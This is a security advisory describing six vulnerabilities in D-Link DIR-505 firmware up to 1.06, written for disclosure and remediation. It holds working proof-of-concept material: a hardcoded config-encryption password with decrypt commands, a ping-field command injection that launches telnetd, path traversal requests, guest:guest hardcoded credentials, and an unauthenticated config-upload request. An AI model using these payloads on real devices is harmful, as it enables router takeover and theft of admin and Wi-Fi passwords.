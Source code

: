# Multiple vulnerabilities on D-Link Dir-505 devices

## ADVISORY INFORMATION
Title:		Multiple vulnerabilities on D-Link Dir-505 devices
Discovery date: 05/04/2013
Release date: 	09/09/2013
* *Credits:* Alessandro Di Pinto ([@adipinto](https://twitter.com/adipinto))

## AFFECTED PRODUCTS
This security vulnerability affects the following products and firmware versions:

* D-Link DIR-505, firmware version <= 1.06

Other products and firmware versions could also be vulnerable, but they were not checked.

## VULNERABILITY DETAILS

### #1 Weak configuration file encryption
The file provided to the end-user in order to make a backup copy of the device configuration, is encrypted with a hardcoded password. The device firmware creates the configuration file in three specific steps, as shown below:
* Collect the configuration data to backup
* Encrypt entries with the hardcoded password **sw5-superman**
* Create the file header through the tool ```imghdr```

The file header has the fixed-size of 84 byte. An attacker ables to get an encrypted configuration file could decrypt its contents with the following command:

   ```dd if=config-file of=config-file-no-header bs=84 skip=1```

   ```ccrypt -d -K sw5-superman config-file-no-header```

Decrypted file contains sensitive information that an attacker could use in order to compromise the target device (e.g., admin password and WPA passphrase).

Furthermore, an attacker can craft a own configuration file, encrypt it with the hardcoded password, append at the beginning of file a valid header and finally upload the new configuration to the target device without authentication, exploiting the "Authentication bypass" issue described inside this advisory.

### #2 Command Injection
An authenticated attacker can exploit the *Ping Test* feature exposed inside the page **/System_Check.htm**, in order to execute arbitrary commands inside the device, with root privileges. More precisely, the *ip_addr* parameter is not sanitized properly, thus it is possible to leverage traditional command injection techniques.  his security issue is exploitable only after a successful authentication.

Proof-of-Concept used to open telnet on vulnerable devices:

```
POST /my_cgi.cgi HTTP/1.1
Host: [IP]
Cookie: uid=[VALID-COOKIE-HERE]
Content-Length: 55

request=ping_test&ip_addr=127.0.0.1; /usr/sbin/telnetd;
```

### #3 Path traversal (directory listing)
The web-gui exposed through the port 8181/TCP is used to explore the contents of the USB drive, connected at the device. Normally the end-user is allowed to list only the files inside the own USB drive but, due to insufficient security checks, an attacker is ables to list the contents of every file system directories. Only authenticated users can exploit this issue.

Proof-of-Concept used to list the device's /etc/ directory:

```http://192.168.0.1:8181/dws/api/ListFile?id=admin&tok=&volid=1&path=usb_dev/usb_A1/../../../../etc```


### #4 Path traversal (file upload)
The web-gui exposed through the port 8181/TCP allows authorized users (e.g., admin user) to upload files inside the USB drive connected at the device. The upload feature is present at the following link:

```http://[IP]:8181/folder_view.htm```

The upload operation is performed through a POST request to the resource **/dws/api/UploadFile** using a *multipart/form-data* content-type. Several parameters are passed but the *path* parameter can be abused in order to modify the destination directory of the uploaded file. This issue allows an authenticated user to upload an arbitrary file inside the target device.

Proof-of-Concept used to upload a simple text file inside the /tmp/ directory:

```
POST /dws/api/UploadFile?0.35494315220771677 HTTP/1.1
Host: [IP]:8181
Cookie: uid=[VALID-COOKIE-HERE]
Content-Type: multipart/form-data;
	      boundary=---------------------------736034324104825609817274318
Content-Length: 1179

-----------------------------736034324104825609817274318
Content-Disposition: form-data; name="id"

admin
-----------------------------736034324104825609817274318
Content-Disposition: form-data; name="tok"

-----------------------------736034324104825609817274318
Content-Disposition: form-data; name="volid"

1
-----------------------------736034324104825609817274318
Content-Disposition: form-data; name="path"

usb_dev/usb_A1/../../../../../../../../../tmp/
-----------------------------736034324104825609817274318
Content-Disposition: form-data; name="filename"

exploit.txt
-----------------------------736034324104825609817274318
Content-Disposition: form-data; name="upload_file"; filename="test.txt"
Content-Type: text/plain

malicious text
-----------------------------736034324104825609817274318--
```


### #5 Privilege escalation (hardcoded credential)
The upload feature, described in the issue 4 titled "Path traversal (upload file)", is theoretically designed to be used only by authorized users (selected through the web-gui). The device has the following hardcoded user which cannot be deleted using the web-gui:

*username:* **guest**
*password:* **guest**

Using this credential, the end-user can access the web-gui (exposed on the port 8181/TCP) in read-only mode; the button used to upload files is disabled in attempt to deny unauthorized operations. However due to a wrong session handling, an attacker can bypass described limitation following below steps:
* Login with the hardcoded user "guest" in order to get a valid cookie.
* Using this cookie it is possible to make a direct upload request like the Proof-of-Concept described previously in the issue 4.

The purpose of this exploit is to perform an arbitrary file upload using an hardcoded (read-only) user.


### #6 Authentication bypass
The **my_cgi.cgi** resource exposes several features accessible with no authentication. In particular, every request that specifies the HTTP header field *Content-type: multipart/form-data* is processed without perform any authentication check. An _unauthenticated_ attacker can exploit this issue in order to upload a malicious configuration on the target device, overwriting the original configurations (e.g., set a new admin password).

Proof-of-Concept used to upload a configuration file without perform the login:

```
POST /my_cgi.cgi HTTP/1.1
Host: [IP]
Cookie: uid=[VALID-COOKIE-HERE]
Content-Type: multipart/form-data;
	      boundary=---------------------------4318828241986447042487864450
Content-Length: 382

-----------------------------4318828241986447042487864450
Content-Disposition: form-data; name="which_action"

load_conf
-----------------------------4318828241986447042487864450
Content-Disposition: form-data; name="file"; filename="attacker-config.bin"
Content-Type: text/plain

[MALICIOUS-CONFIGURATION-HERE]
-----------------------------4318828241986447042487864450--
```

## REMEDIATION
D-Link has released an updated firmware version (1.07) that addresses most of the described issues. Firmware is already available on D-Link web site, at the following URL: ftp://ftp.dlink.com/Gateway/dir505/Firmware/dir505_fw_107.zip

## DISCLAIMER
The author is not responsible for the misuse of the information provided in this security advisory. The advisory is a service to the professional security community. There are NO WARRANTIES with regard to this information. Any application or distribution of this information constitutes acceptance AS IS, at the user's own risk. This information is subject to change without notice.